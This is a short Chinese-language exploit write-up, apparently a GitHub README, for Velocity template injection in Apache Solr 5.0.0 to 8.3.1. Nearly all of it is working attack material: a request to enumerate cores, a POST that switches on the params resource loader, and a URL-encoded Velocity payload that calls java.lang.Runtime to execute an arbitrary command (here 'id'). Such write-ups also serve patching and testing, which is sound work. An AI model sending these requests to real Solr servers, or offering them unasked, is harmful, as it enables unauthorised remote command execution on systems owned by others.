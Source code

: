 

## 漏洞概述

攻击者通过未授权访问solr服务器，可以注入自定义模板，通过Velocity模板语言执行任意命令

发送特定的数据包开启 `params.resource.loader.enabled`，然后get访问接口执行命令

## 影响范围

```http
5.0.0 ~ 8.3.1版本
```

## 漏洞利用

1、默认情况下`params.resource.loader.enabled`配置未打开，无法使用自定义模板

我们先通过如下API获取所有的核心：

```http
http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json
```

2、通过如下请求开启`params.resource.loader.enabled`，其中API路径包含刚才获取的core名称

```http
POST /solr/demo/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

3、之后，注入Velocity模板即可执行任意命令

```http
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

## 漏洞分析

https://xz.aliyun.com/t/6700#toc-4